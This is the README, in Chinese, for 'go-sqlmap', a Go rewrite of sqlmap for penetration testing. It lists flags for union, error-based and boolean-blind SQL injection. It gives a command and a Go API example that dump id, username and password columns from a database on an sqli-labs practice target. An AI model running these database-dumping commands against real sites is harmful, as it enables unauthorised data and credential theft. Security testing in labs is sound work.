 # go-sqlmap

## 介绍

- sqlmap：渗透测试界的神器，这是一个简单的sqlmap
- 使用Golang重写的原因：高效、生成可执行文件直接运行、无需搭建环境等
- 测试通过sqli-lab前八关，传入一个有注入的url即可直接脱库
- 目前可以做到UnionSelect回显注入、Updatexml和Polygon的报错注入、布尔盲注

## 使用说明

- 使用`-u http://xxx/index.php?id=1`进行注入（默认会探测版本和所有数据库名）
- 使用`-D security`指定具体的数据库进行注入获得所有表（比如security数据库）
- 使用`-D security -T users`指定数据库和表名获得所有字段名（比如security数据库的users表）
- 使用`-D security -T users -C id,username,password`获得users表这三个字段的所有数据
- 使用`--technique U`指定使用Union注入（适用于sqli-lab前4关）
- 使用`--technique E`指定使用报错注入（使用于sqli-lab第5-6关）
- 使用`--technique B`指定使用布尔盲注（使用于sqli-lab第8关）
- 使用`--beta`参数可以激活Polygon报错函数（默认使用Updatexml因为更稳定）

## 图片

- Union注入

![](https://raw.githubusercontent.com/EmYiQing/github.com/EmYiQing/go-sqlmap/master/img/02.png)

- 报错注入

![](https://raw.githubusercontent.com/EmYiQing/github.com/EmYiQing/go-sqlmap/master/img/01.png)

- 布尔盲注

![](https://raw.githubusercontent.com/EmYiQing/github.com/EmYiQing/go-sqlmap/master/img/03.png)

## 快速开始

[下载地址](https://github.com/EmYiQing/github.com/EmYiQing/go-sqlmap/releases)

```shell
github.com/EmYiQing/go-sqlmap.exe -u http://sqlilab-ip/Less-1/?id=1 -D security -T users -C id,username,password --technique U
```

## 使用API

```shell
go get https://github.com/EmYiQing/go-sqlmap
```

```go
package main

import (
	sqlmap "github.com/EmYiQing/go-sqlmap/api"
	"github.com/EmYiQing/go-sqlmap/start"
)

func main() {
	opts := start.Input{
		Beta:      false,
		Url:       "http://192.168.222.129:81/Less-1/?id=1",
		Database:  "security",
		Table:     "users",
		Columns:   []string{"id", "username", "password"},
		Technique: []string{"U"},
	}
	instance := sqlmap.NewScanner(opts)
	instance.Run()
	instance.Stop()
}
```


